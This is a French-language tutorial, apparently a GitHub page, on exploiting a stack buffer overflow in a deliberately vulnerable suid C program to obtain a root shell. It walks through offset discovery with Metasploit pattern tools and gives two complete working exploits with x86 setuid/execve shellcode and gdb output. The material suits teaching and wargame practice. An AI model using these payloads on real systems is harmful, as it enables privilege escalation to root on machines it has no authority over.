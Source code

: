 # Le Stack Overflow

## I. Introduction
Le Stack Overflow consiste à utiliser une faille applicative pour écrire en mémoire et détourner le flow du programme. Nous allons par exemple tenter ici de faire executer un shell root à un programme suid lambda.

## II. Pré-requis
* Un programme suid
* Un code permettant le buffer overflow

Soit le programme `vuln` suivant :
```{r, engine='C'}
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void copy(char *arg)
{
	char msg[256];
	strcpy(msg,arg);
    printf("Votre argument est : %s\n",msg);
}

int main(int argc, char **argv)
{
	copy(argv[1]);
	return 0;
}
```

## III. La faille
Ce programme permet le Stack Overflow puisque l'input utilisateur n'est controlé à aucun moment et que `strcpy()` se contente de copier bêtement l'input dans la variable `msg`. Ainsi on peut écrire dans la mémoire.  
L'idée va être d'écraser l'adresse de retour du programme vulnérable par l'adresse de notre shellcode.

## IV. Exploitation

### On détermine l'offset de l'adresse de retour
Pour cela, on génère on suite de caractère unique sur kali :
```{r, engine='bash'}
root@kali:~# /usr/share/metasploit-framework/tools/exploit/pattern_create.rb 300
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9
```
On execute notre programme vulnérable sous le debugger `gdb`
```{r, engine='bash'}
aas@ubuntu:~$ gdb -q ./vuln
Reading symbols from /wargame/medium/level1/level...(no debugging symbols found)...done.
gdb$ r $(python -c "print 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9'")
Votre argument est : Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9

Program received signal SIGSEGV, Segmentation fault.
Cannot access memory at address 0x6a413969
0x6a413969 in ?? ()
```
Kali va maintenant nous dire à l'octet prêt là où nous pouvons réécrire l'adresse de retour
```{r, engine='bash'}
root@kali:~# /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb $(ruby -e 'print "\x6a\x41\x39\x69".reverse')
[*] Exact match at offset 268
```
Sans cette technique, il aurait fallu procéder par dicotomie jusqu'à tomber sur le bon offset.

### Détournement du programme
Plusieurs solutions existent ici, nous verrons les deux plus simples : exploitation à l'aide de l'environnement, et exploitation directe (ce sont des termes maison hein :p)

#### 1. A l'aide de l'environnement
Nous commençons par stocké notre shellcode précédé d'une floppé de NOP afin de se laisser une marge :

```{r, engine='bash'}
aas@ubuntu:~$ export SC=$(python -c "print '\x90'*100+'\x6a\x31\x58\x99\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80'")
```

Nous récupérons l'adresse de notre variable SC grâce au programme suivant :

```{r, engine='bash'}
#include <stdio.h>
aas@ubuntu:~$ cat get_env
void main()
{
        printf("ad: 0x%lx\n", getenv("SC"));
}
aas@ubuntu:~$ ./get_env
ad: 0xbffffed3
```
Nous devons donc écraser l'adresse de retour avec l'adresse de notre variable SC : 0xbffffed3
```{r, engine='bash'}
aas@ubuntu:~$ ./vuln $(python -c "print 'A'*268 + '\xd3\xfe\xff\xbf'")
# whoami
root
```

#### 2. Par exploitation directe
Lorsque le buffer est assez grand, nous pouvons tout faire rentrer et l'utilisation de l'environnement n'est pas nécéssaire.  
Le principe est toujours d'écraser l'adresse de retour pour la faire pointer dans nos NOP. Il faut donc récupérer une adresse pointant sur nos NOP.
```{r, engine='bash'}
aas@ubuntu:~$ gdb -q ./vuln
Reading symbols from /wargame/medium/level1/level...(no debugging symbols found)...done.
gdb$ r $(python -c "print 'A'*184 + '\x90'*50 + '\x6a\x31\x58\x99\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80' + 'AAAA'")
0xbffffec0:	0x2d465455	0x494c0038	0x3d53454e	0x53003133
0xbffffed0:	0x90903d43	0x90909090	0x90909090	0x90909090
0xbffffee0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffffef0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbfffff00:	0x90909090	0x90909090	0x90909090	0x90909090
0xbfffff10:	0x90909090	0x90909090	0x90909090	0x90909090
0xbfffff20:	0x90909090	0x90909090	0x90909090	0x90909090
0xbfffff30:	0x90909090	0x316a9090	0x80cd9958	0xc189c389
0xbfffff40:	0xcd58466a	0x520bb080	0x732f6e68	0x2f2f6868
0xbfffff50:	0xe3896962	0x80cdd189	0x53494800	0x4e4f4354
0xbfffff60:	0x4c4f5254	0x6e67693d	0x6265726f	0x0068746f
0xbfffff70:	0x454d4f48	0x61772f3d	0x6d616772	0x656d2f65
```
On voit nos NOP (\x90). Il suffit de choisir une adresse d'un NOP au milieu de la floppé pour se laisser de la marge. Disons l'adresse `0xbfffff10`. Il nous suffit maintenant de remplacer les AAAA par cette adresse et le tour est joué.
```{r, engine='bash'}
aas@ubuntu:~$ ./vuln $(python -c "print 'A'*184 + '\x90'*50 + '\x6a\x31\x58\x99\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80' + '\x10\xff\xff\xbf'")
# whoami
root
```

## V. Sécurisation
Aujourd'hui, les kernels sont patchés contre ce problème. L'ASLR palie à ce problème.
